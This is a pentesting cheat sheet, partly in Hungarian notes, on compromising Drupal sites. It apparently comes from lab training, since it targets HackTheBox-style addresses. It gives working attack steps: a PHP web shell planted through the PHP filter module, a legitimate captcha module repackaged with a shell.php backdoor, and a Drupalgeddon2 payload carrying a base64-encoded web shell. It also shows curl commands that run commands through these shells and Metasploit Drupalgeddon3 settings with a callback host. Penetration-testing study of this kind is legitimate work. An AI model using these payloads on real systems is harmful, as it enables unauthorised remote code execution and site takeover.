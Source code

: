 # drupal
## scanning
sudo pip3 install droopescan  
droopescan scan drupal -u http://10.10.10.1/  
## get drupal version without credentials
* CHANGELOG.txt fajl-ban ott van!!!
## exploiting
nehezebb tema mint a wordpress vagy joomla eseteben
### leveraging the php filter module
#### new versions than 8 need the installation of the module as well (before version 8 it has to be skipped)
* wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
* nem kell kicsomagolni
* login as admin
* go to Administration / Reports / Available updates (maybe under the Extend menu instead)
* 'Upload a module or theme archive to install'
* talozzuk ki a letoltott archive file-t
* install
* !!!!!! extra info !!!!!!
  * lehetseges, hogy kulon az extension-nel be kell pipalni az update managert hogy az is hozza legyen adva !!!
  * php filter-t is ki kell lehet pipalni
#### older Drupal versions contains the module by default - before 8
* login as admin
* 1
  * choose modules
  * enable 'php filter'
  * save configuration (lent)
* 2
  * go to Content / Add content
  * create basic page
  * insert web shell script like: <?php system($_GET['cmd']); ?>
  * text format -> php code
  * save
* 3
  * we will be redirected to the new page like: http://10.10.10.1/node/3
  * append web shell param, and call it
    * curl -s http://10.10.10.1/node/3?cmd=id
### uploading a backdoored module
* login as admin (or some similar high priv user) (dont know which can be fine....)
* download a standard module from official repo
* e.g.
  * wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
* tar xvf captcha-8.x-1.2.tar.gz
* create new file with web shell content like shell.php: <?php system($_GET['cmd']); ?>
* create a .htaccess file with below content
<pre>
 <IfModule mode_rewrite.c>
  RewriteEngine On
  RewriteBase /
 </IfModule>
</pre>
* mov these two files (shell.php, .htaccess) into the module folder and zip it back
  * mv shell.php .htaccess captcha
  * tar cvf captcha.tar.gz captcha/
* click 'Manage' / 'Extend' / + Install new module
* you are on the install page, like:   http://10.10.10.1/admin/modules/install
* browse local archive file, click Install
* run rce
  * curl -s http://10.10.10.1/modules/captcha/shell.php?cmd=id
### Known vulnerabilities (Drupalgeddon 1 - 3)
#### info
##### Drupalgeddon 1
CVE-2014-3704, known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
##### Drupalgeddon 2
CVE-2018-7600, also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
##### Drupalgeddon 3
CVE-2018-7602, also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.
#### exploitation
##### Drupalgeddon 1 (Drupal 7.0 - 7.31)
###### manual
https://www.exploit-db.com/exploits/34992  
python2.7 drupalgeddon.py -t http://10.10.10.1/ -u peter -p pass123  
###### metasploit
msf> exploit/multi/http/drupal_drupageddon/  
##### Drupalgeddon 2 (Drupal 7.58 - 8.5.1)
https://www.exploit-db.com/exploits/44448  
python3 drupalgeddon.py  
feltolt egy hello.txt fajlt egy kacsinto smileyval  
szerkesszuk at a scriptet a 'payload'-os sornal  
irjuk bele base64 encode-olva a web shell-t ami utana decode-olunk  
fontos hogy a kiterjesztes php legyen  
pl igy...  
<pre>
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K" | base64 -d | tee hello.php'}
</pre>
aztan curl
curl -s http://10.10.10.1/hello.php?cmd=id
##### Drupalgeddon 3 (multiple versions)
It requires a user to have the ability to delete a node.  
We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie.  
###### metasploit
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195  
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local  
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1  
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15  
msf6 exploit(multi/http/drupal_drupageddon3) > run  
